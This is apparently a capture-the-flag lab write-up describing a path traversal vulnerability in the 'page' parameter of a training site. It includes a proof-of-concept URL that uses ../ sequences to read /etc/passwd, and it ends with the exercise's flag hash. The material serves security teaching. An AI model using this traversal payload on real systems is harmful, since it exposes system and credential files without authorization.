

# Path Transversal
<br>

**Endpoint:** `http://darkly.fr/index.php?page=member`

<br>

# 1. Overview

The application dynamically loads content based on the page parameter.
Improper input validation allows directory traversal sequences (../) to access files outside the intended directory.

---

<br>

# 2. Vulnerability Identification

Initial Endpoint
```
http://darkly.fr/?page=member
```
Proof of Concept (PoC)
```
http://darkly.fr/?page=../../../../../../../etc/passwd
```

**Result:**



<br>

# 🎉 Flag (4/14)

```
b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
```
